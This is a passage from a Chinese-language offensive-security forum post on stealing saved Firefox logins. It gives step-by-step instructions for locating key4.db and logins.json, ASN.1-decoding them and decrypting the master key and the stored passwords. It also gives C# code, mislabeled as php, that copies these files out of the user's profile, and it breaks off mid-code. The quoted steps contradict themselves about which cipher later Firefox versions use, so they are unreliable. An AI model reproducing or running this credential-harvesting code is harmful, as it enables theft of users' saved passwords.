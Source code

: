 ```php

}
```

0x04 下载db和json
==============

同理直接下载json文件和db文件。我们可以打开看看logins.json文件内容。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-092904be828abed2c786bd07d8afd07ecd5716d6.png)

这里引用文章：<https://www.cnblogs.com/unicodeSec/p/14875364.html>

```php
Firefox 版本 >= 58.0.2 < 75
根据上述的描述，解密Firefox存储在本地的登录信息需要以下步骤：
找到当前计算机Firefox的profile目录，检查key4.db和logins.json文件是否存在。
如果存在，从key4.db中提取已编码+加密的password-check数据，先ASN1解码然后使用3DES解密被加密的password-check字符串（这样做是为了确认提取的密码是否正确）。
从key4.db中提取编码的+加密的主密钥 ，ASN.1解码，然后3DES解密主密钥。
从logins.json中读取加密的登录名和密码，ASN.1解码，然后3DES使用主密钥解密登录数据
Firefox 版本 >= 75
和Firefox 版本 >= 58.0.2 < 75不同的是，在加密password-check数据和主密钥使用了hmacWithSHA256的哈希算法和AES256 cbc的加密算法，所以解密步骤如下所示：

根据上述的描述，解密Firefox存储在本地的登录信息需要以下步骤：
找到当前计算机Firefox的profile目录，检查key4.db和logins.json文件是否存在。
如果存在，从key4.db中提取已编码+加密的password-check数据，先ASN1解码然后使用AES解密被加密的password-check字符串（这样做是为了确认提取的密码是否正确）。
从key4.db中提取编码的+加密的主密钥 ，ASN.1解码，然后3DES解密主密钥。
从logins.json中读取加密的登录名和密码，ASN.1解码，然后3DES使用主密钥解密登录数据
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-c51fc46bc003f63e846d0450d8db739aa3fbba8a.png)

```php
if (firefox_json_path != "" && firefox_key_path != "")
{
    Console.ForegroundColor = ConsoleColor.Green;
    Console.WriteLine("[+]" + firefox_key_path);
    Console.WriteLine("[+]" + firefox_json_path);
    Console.WriteLine("[*]version >= 58.0.2");
    Console.ForegroundColor = ConsoleColor.White;
    //copy file
    string json_file_path_cuurent = UserFolder + "\\" + firefox_json;
    StreamWriter json_file_cuurent = File.CreateText(json_file_path_cuurent);
    json_file_cuurent.Close();

    bool isrewrite = true;
    File.Copy(firefox_json_path, json_file_path_cuurent, isrewrite);

    string firefox_key_path_cuurent = UserFolder + "\\" + firefox_key;
    StreamWriter firefox_key_cuurent = File.CreateText(firefox_key_path_cuurent);
    firefox_key_cuurent.Close();
    File.Copy(firefox_key_path, firefox_key_path_cuurent, isrewrite);
}
if (firefox_json_path != "" && firefox_old_key_path != "")
{
    Console.ForegroundColor = ConsoleColor.Green;
    Console.WriteLine("[+]" + firefox_old_key_path);
    Console.WriteLine("[+]" + firefox_old_key_path);
    Console.WriteLine("[*]version > 58.0.2");
    Console.ForegroundColor = ConsoleColor.White;
    //copy file
    string json_file_path_cuurent = UserFolder + "\\" + firefox_json;
    StreamWriter json_file_cuurent = File.CreateText(json_file_path_cuurent);
    json_file_cuurent.Close();
```